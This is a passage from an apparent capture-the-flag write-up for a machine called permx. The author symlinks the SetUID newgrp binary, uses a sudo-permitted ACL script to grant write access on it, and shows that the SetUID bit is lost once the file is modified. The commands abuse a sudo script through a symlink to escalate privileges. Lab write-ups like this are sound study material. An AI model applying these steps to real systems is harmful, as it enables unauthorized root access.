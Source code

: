 ```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

I’ll mess with the `newgrp` binary, which is SetUID as shown by the `s` instead of the `x` in the 4th place:

```

mtz@permx:~$ ls -l /usr/bin/newgrp 
-rwsr-xr-x 1 root root 40496 Feb  6  2024 /usr/bin/newgrp

```

I’m able to create a symlink and update the permissions, and it’s still got the `s`:

```

mtz@permx:~$ ln -s /usr/bin/newgrp 
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/newgrp 
mtz@permx:~$ ls -l /usr/bin/newgrp 
-rwsrwxr-x+ 1 root root 40496 Feb  6  2024 /usr/bin/newgrp

```

However, as soon as I write to it in anyway, it loses that permission:

```

mtz@permx:~$ echo " " >> /usr/bin/newgrp 
mtz@permx:~$ ls -l /usr/bin/newgrp 
-rwxrwxr-x+ 1 root root 40498 Oct 28 19:45 /usr/bin/newgrp

```

Linux [removes SetUID after file modification](https://unix.stackexchange.com/questions/284947/why-suid-bit-is-unset-after-file-modification) by a non-root user.
